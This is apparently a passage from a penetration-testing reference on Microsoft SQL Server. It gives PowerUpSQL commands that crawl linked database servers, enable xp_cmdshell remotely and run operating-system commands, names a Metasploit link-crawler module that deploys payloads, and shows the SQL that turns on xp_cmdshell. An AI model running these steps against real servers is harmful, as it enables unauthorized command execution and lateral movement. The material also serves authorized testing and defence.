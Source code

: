 
The `PowerUpSQL`'s `Get-SQLServerLinkCrawl` PowerShell cmdlet can
be used to automate the discovery and exploitation process detailed above:

```bash
# Lists and retrieves information (link name, is_data_access_enabled / is_rpc_out_enabled, etc.) on the database links of the specified instance.
Get-SQLServerLink -Verbose -Instance "<INSTANCE>"

# Recursively enumerates the database links of the specified instance (and displays if sysadmin privileges are granted on the linked instance(s)).
Get-SqlServerLinkCrawl -Instance "<INSTANCE>"

# Executes the given SQL query on all the database(s) linked to the specified instance.
Get-SQLServerLinkCrawl -Instance "<INSTANCE>" -Query "<SELECT @@version | SQL_QUERY>"

# Leverages sysadmin privileges on the linked databse to enable xp_cmdshell.
Get-SQLServerLinkCrawl -Instance "<INSTANCE>" -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT "<LINKED_INSTANCE>"'

# Executes an operating system command using xp_cmdshell on all the linked database (requires sufficient privileges and xp_cmdshell to be enabled).
Get-SQLServerLinkCrawl -Instance "<INSTANCE>" -Query 'exec master..xp_cmdshell ''<OS_COMMAND>'''
```

Additionally, the `Metasploit` module `exploit/windows/mssql/mssql_linkcrawler`
can be used to automatically and recursively crawl the configured server links
and deploy payloads if the `DEPLOY` is set to `True`:

```
msf> use exploit/windows/mssql/mssql_linkcrawler
```

### OS commands execution

#### `xp_cmdshell` procedure

The `xp_cmdshell` extended procedure can be used to execute system commands
given that the account making the queries has sufficient privileges on the SQL
service. The `xp_cmdshell` function is deactivated by default starting from
`SQL Server 2000` and upwards and needs to be activated. Its re activation
requires elevated privileges.

As with any stored procedure, `xp_cmdshell` needs to be called through stacked
queries.

Note that the Windows process spawned by `xp_cmdshell` has the same security
rights as the SQL Server service account running the service.

###### `xp_cmdshell` activation

The following query can be used to manually activate it given the account used
has sufficient privilege (sysadmin):

```SQL
-- Checks if xp_cmdshell is enabled (config_value = 1).
EXEC sp_configure 'xp_cmdshell';

-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO

-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
GO
```